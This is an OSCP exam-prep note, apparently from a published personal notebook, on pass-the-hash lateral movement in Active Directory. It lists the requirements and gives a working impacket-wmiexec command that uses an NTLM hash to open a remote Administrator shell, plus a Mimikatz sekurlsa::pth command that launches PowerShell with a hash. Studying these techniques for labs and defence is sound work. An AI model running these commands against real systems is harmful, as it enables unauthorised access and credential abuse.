 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/3-pass-the-hash/","updated":"2024-01-05T11:36:59.167+01:00"}
---
```


----------
### Theory:
- Requires:
	- User that authenticates **often** needs to be part of Administrator local group
	- SMB connection through firewall (commonly port 445)
	- Windows File and Printer Sharing enabled
	- ADMIN$ share available

---------
### Remote PtH Shell with Impacket:
In Kali:
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
--------------------
### PtH with Mimikatz:
```
sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell”
```

